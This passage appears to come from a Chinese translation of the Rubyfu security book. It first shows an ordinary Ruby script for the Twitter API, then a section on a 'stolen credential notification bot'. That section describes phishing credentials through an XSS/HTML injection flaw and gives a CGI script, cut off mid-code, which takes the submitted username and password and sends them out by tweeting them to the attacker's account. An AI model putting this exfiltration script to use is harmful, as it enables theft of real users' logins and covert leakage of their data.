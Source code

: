     ```
    gem install twitter 
    ```

## 基本用法

**rubyfu-tweet.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user 
```

![](webfu__twitterAPI1.png)

**轮到你了**，使用上面的例子向@Rubyfu发推文。将您的代码和输出推文给**@Rubyfu**。

## 构建被盗凭证通知机器人

我们正在利用 XSS/HTML 注入漏洞，并诱使用户输入他们的用户名和密码。想法是，我们将制作一个[CGI 脚本](http://rubyfu.net/content/module_0x4__web_kung_fu/index.html#cgi)，获取被盗的凭据，然后将这些凭据作为通知或日志系统推文给我们

```
#!/usr/bin/ruby -w

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
```